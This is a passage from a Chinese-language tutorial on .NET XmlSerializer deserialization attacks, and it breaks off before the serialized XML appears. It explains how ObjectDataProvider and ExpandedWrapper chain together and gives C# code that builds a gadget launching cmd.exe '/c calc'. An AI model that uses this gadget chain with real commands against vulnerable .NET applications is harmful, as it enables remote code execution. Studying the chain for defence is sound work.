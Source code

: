 ```c#
                e = e2;
            }
        }
    }
```
在`InvokeMethodOnInstance`将会调用指定方法
```c#
private object InvokeMethodOnInstance(out Exception e)
{
    object result = null;
    string text = null;
    e = null;
    object[] array = new object[_methodParameters.Count];
    _methodParameters.CopyTo(array, 0);
    try
    {
        result = _objectType.InvokeMember(MethodName, BindingFlags.Instance | BindingFlags.Static | BindingFlags.Public | BindingFlags.FlattenHierarchy | BindingFlags.InvokeMethod | BindingFlags.OptionalParamBinding, null, _objectInstance, array, CultureInfo.InvariantCulture);
    }
	...
}
```
也就是说`MethodName`变量的`set`访问器被触发时会调用`objectInstance`变量所指向对下个你的指定方法，方法名为`methodName`变量的值，参数为`MethodParameters`。  
`XmlSerializer`类在反序列化`xml`的时候会构造`ObjectDataProvider`对象，在对象构造的过程中会调用到其成员变量的`set`访问器为成员变量赋值从而触发命令执行。
只是这样是不够的，因为`ObjectDataProvider`对象并不能被`XmlSerializer`序列化。这个时候就需要`ExpandedWrapper`对`ObjectDataProvider`进行包装，另外即便`ObjectDataProvider`被包装后也是不能成功序列化的，  
因为`ObjectProvider`的成员变量`ObjectInstance`是一个`Process`对象，因为该对象是不能被`XmlSerializer`序列化的。  
我们可以先对命令执行的方法进行一下封装让其能够被序列化方便测试。  
代码如下：  
```c#
[XmlRoot]
public class ProcessT
{
	public void exec()
	{
		Process process = new Process();
		process.StartInfo.FileName = "cmd.exe";
		process.StartInfo.Arguments = "/c calc";
		process.Start();
	}
}
class Program
    {
        static void Main(string[] args)
        {
            ExpandedWrapper<ProcessT, ObjectDataProvider> expandedWrapper = new ExpandedWrapper<ProcessT, ObjectDataProvider>();
            ObjectDataProvider object_data_provider = new ObjectDataProvider();
            object_data_provider.MethodName = "exec";
            object_data_provider.ObjectInstance = new ProcessT();
            expandedWrapper.ProjectedProperty0 = object_data_provider;
            XmlSerializer xml = new XmlSerializer(typeof(ExpandedWrapper<ProcessT, ObjectDataProvider>));
            TextWriter text_writer = new StreamWriter(@"test.xml");
            xml.Serialize(text_writer, expandedWrapper);
            text_writer.Close();
        }
    }
``` 
这样被封装后就解决了`Process`不能被序列化的问题，那么`ExpandedWrapper`是如何解决`ObjectDataprovider`不能被序列化的问题的呢？  
在`test.xml`中序列化的数据为  
```Xml
```